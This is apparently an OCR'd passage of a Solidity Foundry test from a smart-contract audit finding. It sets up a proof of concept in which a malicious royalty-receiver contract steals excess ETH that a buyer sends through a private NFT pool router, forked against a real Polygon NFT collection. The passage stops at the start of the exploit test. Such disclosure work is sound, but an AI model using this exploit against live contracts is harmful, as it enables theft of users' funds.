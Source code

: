 ```solidity
    /// @notice The private pool has initial balance/reserve of 100 ETH (the base token is address(0)).
    uint128 constant VIRTUAL_BASE_TOKEN_RESERVES = 100e18;

    /// @notice The private pool has 5 NFTs, each one with a wight of 1e18 (the merkle root is bytes32(0)).
    uint128 constant VIRTUAL_NFT_RESERVES = 5e18;

    /// @notice The excess amount of ETH that the buyer/victim will send because they believe that it will be returned to them.
    uint256 constant EXCESS = 10e18;

    /// @notice The attacker contract.
    MaliciousRoyaltyReceiver public maliciousRoyaltyReceiver;

    /// @notice Common state variables.
    uint256 public tokenId;
    address public attacker;
    address public victim;

    function setUp() public {
        // Get a reference to an ERC2981 collection on polygon mainnet.
        nft = ERC721Royalty(0x1024Accd05Fa01AdbB74502DBDdd8e430d610c53);

        // Pick an NFT token id that will be used to perform the attack.
        tokenId = 61039189399824080078548987048376199044334241070534370230028874880716994294049;

        _deployPrivatePool();

        // Deposit the NFT to the pool.
        _depositNft(tokenId);

        // Get need addresses.
        attacker = IPixels(address(nft)).creatorOf(tokenId);
        victim = vm.addr(0x1234);

        // Deploy the attacker contract.
        vm.startPrank(attacker);
        maliciousRoyaltyReceiver = new MaliciousRoyaltyReceiver(
            address(nft),
            address(ethRouter)
        );

        // Set the attacker contract as the royalty receiver for NFT#tokenId.
        // Note that creators can set the royalty receiver, but can also simply mint NFTs
        // from contracts that could have malicious fallback() and wouldn't need to use
        // setCreatorRedirect since the contract that minted the nft will alredy be royalty
        // recipient.
        IPixels(address(nft)).setCreatorRedirect(
            address(maliciousRoyaltyReceiver)
        );
        vm.stopPrank();

        // Deal ETH.
        _fundEth();
    }

    function test_RoyaltyReceiverStealExcessEth() public {
        _logState(" Before exploit");

        // Get needed data for buy and logs.
        (EthRouter.Buy[] memory buys, uint256 royalty) = _getBuysStructArray();

```
